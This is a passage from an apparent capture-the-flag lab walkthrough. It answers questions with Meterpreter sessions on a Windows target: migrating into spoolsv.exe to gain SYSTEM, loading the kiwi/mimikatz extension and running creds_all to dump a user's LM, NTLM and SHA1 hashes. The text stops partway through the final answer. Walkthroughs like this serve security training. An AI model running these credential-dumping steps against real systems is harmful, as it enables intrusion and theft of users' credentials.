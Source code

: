 ```
 PID   PPID  Name                    Arch  Session  User                          Path
 ---   ----  ----                    ----  -------  ----                          ----
 1368  692   spoolsv.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe

```
**Answer**: `spoolsv.exe`
### What user is listed by `getuid`?
```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 1432 to 1368...
[*] Migration completed successfully.
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
**Answer**: `NT AUTHORITY\SYSTEM`
### Which `kiwi` command allows up to retrieve all credentials?
```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 1432 to 1368...
[*] Migration completed successfully.
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > help
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
```
**Answer**: `creds_all`
### What is Dark's password? 
```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
```